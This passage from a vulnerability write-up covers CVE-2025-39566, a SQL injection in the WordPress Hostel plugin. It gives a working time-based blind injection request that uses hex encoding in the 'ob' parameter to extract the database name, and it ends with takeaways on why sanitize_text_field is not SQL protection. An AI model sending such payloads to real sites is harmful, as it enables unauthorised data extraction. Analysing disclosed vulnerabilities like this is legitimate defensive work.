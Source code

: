 **Bypass `'` using Hex encoding (alternative)**

Besides `ORD()` we can use **Hex encoding** to bypass:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Bypass succeeds → database name can be extracted.

![Hex encoding bypass](ord_bypass.png "Bypass succeeds")

---

## Conclusion

The vulnerability **CVE-2025-39566** in the WordPress **Hostel** plugin (versions prior to **1.1.5.7**) stems from inserting user-supplied input directly into an SQL query without adequate safeguards, leading to SQL Injection.

**Key takeaways**:

* `sanitize_text_field()` ≠ protection against **SQL Injection**
* Distinguish clearly between input cleaning for HTML contexts and validation/sanitization for SQL contexts

---

## References

[SQL Injection Cheat Sheet – PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Hostel Plugin <= 1.1.5.6 is vulnerable to SQL Injection - patchstack](https://patchstack.com/database/wordpress/plugin/hostel/vulnerability/wordpress-hostel-1-1-5-6-sql-injection-vulnerability?_s_id=cve)

---